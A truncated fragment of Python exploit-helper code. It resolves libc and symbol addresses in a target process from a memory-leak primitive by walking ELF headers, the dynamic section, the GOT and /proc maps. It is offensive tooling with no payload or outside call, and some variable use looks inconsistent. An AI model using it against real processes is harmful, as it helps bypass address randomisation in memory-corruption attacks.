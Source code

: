 def findPhdr(addr):
   if bits == 32:
      e_phoff = u32(leak(addr + 0x1c, wordSz).ljust(4, '\0'))
   else:
      e_phoff = u64(leak(addr + 0x20, wordSz).ljust(8, '\0'))
   return e_phoff + addr

def findDynamic(Elf32_Phdr, moduleBase, bitSz):
   if bitSz == 32:
      i = -32
      p_type = 0
      while p_type != 2:
         i += 32
         p_type = u32(leak(Elf32_Phdr + i, wordSz).ljust(4, '\0'))
      return u32(leak(Elf32_Phdr + i + 8, wordSz).ljust(4, '\0')) + PIE
   else:
      i = -56
      p_type = 0
      while p_type != 2:
         i += 56
         p_type = u64(leak(Elf32_Phdr + i, hwordSz).ljust(8, '\0'))
      return u64(leak(Elf32_Phdr + i + 16, wordSz).ljust(8, '\0')) + PIE

def findDynTable(Elf32_Dyn, table, bitSz):
   p_val = 0
   if bitSz == 32:
      i = -8
      while p_val != table:
         i += 8
         p_val = u32(leak(Elf32_Dyn + i, wordSz).ljust(4, '\0'))
      return u32(leak(Elf32_Dyn + i + 4, wordSz).ljust(4, '\0'))
   else:
      i = -16
      while p_val != table:
         i += 16
         p_val = u64(leak(Elf32_Dyn + i, wordSz).ljust(8, '\0'))
      return u64(leak(Elf32_Dyn + i + 8, wordSz).ljust(8, '\0'))

def getPtr(addr, bitSz):
   with open('/proc/%s/maps' % sys.argv[1]) as maps: 
      for line in maps:
         if 'libc-' in line and 'r-x' in line:
            libc = line.split(' ')[0].split('-')
   i = 3
   while True:
      if bitSz == 32:
         gotPtr = u32(leak(addr + i*4, wordSz).ljust(4, '\0'))
      else:
         gotPtr = u64(leak(addr + i*8, wordSz).ljust(8, '\0'))
      if (gotPtr > int(libc[0], 16)) and (gotPtr < int(libc[1], 16)):
         return gotPtr
      else:
         i += 1
         continue

def findLibcBase(ptr):
   ptr &= 0xfffffffffffff000
   while leak(ptr, 4) != "\x7fELF":
      ptr -= 0x1000
   return ptr

def findSymbol(strtab, symtab, symbol, bitSz):
   if bitSz == 32:
      i = -16
      while True:
         i += 16